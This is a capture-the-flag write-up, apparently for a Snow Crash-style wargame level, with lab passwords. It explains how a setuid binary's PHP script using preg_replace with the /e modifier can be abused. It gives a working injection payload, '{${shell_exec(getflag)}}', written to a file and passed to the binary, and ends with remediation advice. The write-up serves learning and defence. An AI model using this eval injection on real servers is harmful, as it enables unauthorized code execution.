 # Solve Level06
pass : viuaaale9huek52boumoomioc

## Description
- in home
    - -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06*
    - -rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php*

### /home/level06/level06
- is it a binary version of the php file or does this binary execute the php file

### /home/level06/level06.php
- the only usefull line is ```$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);``` we can exploit the e
  - to exploit we have to match [x something ] in the file to pass because of regex
  - 'something' will be executed in y()
- we only need to understand regex in the php file
    - "/e" eval() => execute the code if it's valid php [php officiel][df1] [obsolete since php 5.5.0][df2] (cf Remote Code Execution)
    - use variable variables may help [revelation][df3] [doc][df4]
      - with variable variables we can use interpolation ```${$x}```
      - ```${shell_exec(getflag)}``` ==> failed evaluation code ==> php try to execute but can't
      - ```{${shell_exec(getflag)}}``` ==> undefined variable but getflag is executed !
            

## Solution
- ```echo '[x {${shell_exec(getflag)}}]' > /tmp/file```
- ```./level06 /tmp/file```

no flag
level07 : wiok45aaoguiboiki2tuin6ub

## Resolve problem
- always sanitize your data
- use the last version of php (e in preg_replace is invalide since 5.5.1 [source][df1])

[df1]: https://www.php.net/manual/en/function.preg-replace.php
[df2]: https://www.lephpfacile.com/manuel-php/reference.pcre.pattern.modifiers.php
[df3]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#variable-variables
[df4]: https://www.php.net/manual/en/language.variables.variable.php